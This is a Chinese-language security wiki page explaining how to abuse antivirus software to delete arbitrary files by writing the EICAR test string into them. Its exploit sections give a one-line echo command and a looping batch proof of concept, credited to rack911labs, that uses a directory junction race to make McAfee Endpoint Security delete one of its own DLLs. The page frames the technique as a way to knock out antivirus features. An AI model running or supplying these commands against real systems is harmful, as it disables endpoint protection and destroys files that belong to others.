 # 利用杀毒软件删除任意文件

## 简介

通常，下载一个未知文件保存到硬盘后，杀毒软件通常会在短时间进行实时扫描，如果确定为可疑或威胁，该文件会被自动隔离，并询问用户是否处理。

考虑到杀毒软件几乎都已高权限运行，这样就为我们对杀毒软件利用产生了条件，我们可以往一个合法文件里写入恶意代码特征，然后利用杀毒软件帮我去删除这个文件，当然前提是这个文件当前没有使用。

## 测试字符串

```text
X5O!P%@AP[4\PZX54(P^)7CC)7}$EICAR-STANDARD-ANTIVIRUS-TEST-FILE!$H+H*
```

> **来自维基百科:**
>
> **EICAR标准反病毒测试文件**，又称**EICAR测试文件**, 是由[欧洲反计算机病毒协会](https://zh.wikipedia.org/wiki/%E6%AC%A7%E6%B4%B2%E5%8F%8D%E8%AE%A1%E7%AE%97%E6%9C%BA%E7%97%85%E6%AF%92%E5%8D%8F%E4%BC%9A)（EICAR）与[计算机病毒研究组织](https://zh.wikipedia.org/w/index.php?title=%E8%AE%A1%E7%AE%97%E6%9C%BA%E7%97%85%E6%AF%92%E7%A0%94%E7%A9%B6%E7%BB%84%E7%BB%87&action=edit&redlink=1)（CARO）研制的文件, 用以测试[杀毒软件](https://zh.wikipedia.org/wiki/%E6%9D%80%E6%AF%92%E8%BD%AF%E4%BB%B6)的响应程度。不同于使用可能造成实际破环的实体恶意软件，该文件允许人们在没有计算机病毒的情况下测试杀毒软件。
>
> 杀毒软件的开发者将EICAR字符串视为测试病毒，与其他鉴别标识相似。合格的病毒扫描器在发现文件时，会精确地采用相同方式处置，如同发现一个严重的病毒时那样。注意并非所有病毒扫描器是合格的，有些病毒扫描器会在精确识别后保留文件。
>
> EICAR测试字符的用法要比直接测试灵活：包含EICAR测试字符的文件会被[压缩](https://zh.wikipedia.org/wiki/%E6%95%B0%E6%8D%AE%E5%8E%8B%E7%BC%A9)或者[存档](https://zh.wikipedia.org/wiki/%E5%AD%98%E6%A1%A3)，并且杀毒软件会尝试删除压缩文件中的测试字符。

简单的说为了测试杀毒软件的性能,所有厂商都会把这个测试字符串当作病毒处理。

![](../.gitbook/assets/image%20%2869%29.png)

预想一个场景，在杀毒软件运行时考虑到内存占用可能并不会加载所有自身dll，那我们往这个未加载的dll里写入这个测试字符串，这样杀毒软件就会自己干掉自己，等到需要用到这个功能dll的时候，这个功能就会失效。

## 利用流程

1. 往文件写入测试字符串

## 利用代码

```text
echo X5O!P%@AP[4\PZX54(P^^)7CC)7}$EICAR-STANDARD-ANTIVIRUS-TEST-FILE!$H+H*  > <FILENAME>
```

## 扩展利用

windows提供了一个目录链接功能，只能将两个目录链接在一起。它不能链接文件，并且目录必须在文件系统本地。目录连接可以由任何用户执行，并且不需要管理员特权，因此非常适合在Windows操作系统下利用防病毒软件进行利用。

此poc来自rack911labs:

```text
:loop
rd /s /q C:\Users\Username\Desktop\exploit
mkdir C:\Users\Username\Desktop\exploit
echo X5O!P%@AP[4\PZX54(P^^)7CC)7}$EICAR-STANDARD-ANTIVIRUS-TEST-FILE!$H+H* > C:\Users\Username\Desktop\exploit\EpSecApiLib.dll
rd /s /q C:\Users\Username\Desktop\exploit
mklink /J C:\Users\Username\Desktop\exploit “C:\Program Files (x86)\McAfee\Endpoint Security\Endpoint Security Platform”
goto loop
```

## LINKS

{% embed url="https://zh.wikipedia.org/wiki/EICAR%E6%A0%87%E5%87%86%E5%8F%8D%E7%97%85%E6%AF%92%E6%B5%8B%E8%AF%95%E6%96%87%E4%BB%B6" %}

{% embed url="https://www.rack911labs.com/research/exploiting-almost-every-antivirus-software/" %}

